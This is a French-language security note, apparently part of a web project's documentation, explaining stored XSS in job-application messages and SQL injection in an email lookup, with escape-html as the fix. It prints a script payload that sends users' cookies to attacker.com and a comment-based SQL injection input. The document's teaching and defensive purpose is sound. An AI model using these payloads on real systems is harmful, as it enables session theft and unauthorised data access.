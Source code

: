 # Cross-Site Scripting

Pour une attaque XSS, nous avons la fonctionnalité d'envoyer des candidatures accompagnées par un message que l'utilisateur peut écrire lui même. Lorsqu'un utilisateur soumet un message, nous le stockons dans la base de données, puis on l'affichez sur la page des recruteurs en insérant directement le message dans le HTML de la page.

C'est là que se trouve la faille. Si un utilisateur malveillant soumet un message de candidature comme celui-ci :

```html
<script>document.location='https://attacker.com/steal.php?cookie='+document.cookie;</script>
```

Le script sera exécuté chaque fois qu'un utilisateur charge la candidature. Le script redirige l'utilisateur vers un site contrôlé par l'attaquant et y envoie le cookie de l'utilisateur en tant que paramètre d'URL. Si vous utilisez des cookies pour les sessions d'utilisateurs, l'attaquant peut ainsi voler la session de l'utilisateur et usurper son identité.

Pour éviter cela, on doit correctement échappé le texte avant de l'afficher sur votre site. Cela signifie que les caractères spéciaux tels que `<` et `>` doivent être remplacés par leurs équivalents HTML, soit `&lt;` et `&gt;`. Cela empêche le navigateur d'interpréter le contenu comme du code HTML ou JavaScript.

Dans notre cas, nous utilisons la bibliothèque `escape-html`, voici un exemple d'utilisation :

```javascript
const escapeHtml = require('escape-html');

let candidature = getCandidature("alix@utc.fr"); // On récupere une candidature
let safeComment = escapeHtml(candidature.comment); // On échappe le texte

response.send(`<p>${safeComment}</p>`);
```

Dans cet exemple, si un utilisateur soumet le commentaire de script malveillant mentionné ci-dessus, il sera affiché sur la page en tant que texte brut, et non exécuté en tant que script.

# Injection SQL

Dans une situation où l'application prend un email comme entrée pour rechercher un utilisateur dans la base de données, nous avons :

```sql
SELECT * FROM Utilisateurs WHERE email = '[email]'
```

Une injection SQL possible pourrait ressembler à ce qui suit, avec `alix@utc.fr' --` comme entrée :

```sql
SELECT * FROM Utilisateurs WHERE email = 'alix@utc.fr' --'
```

Ici, le `--` est un commentaire en SQL qui fait ignorer tout ce qui suit. Ainsi, cette requête récupère tous les détails de l'utilisateur avec l'email "alix", en ignorant la vérification du mot de passe ou d'autres contraintes qui peuvent être présentes dans la requête originale.
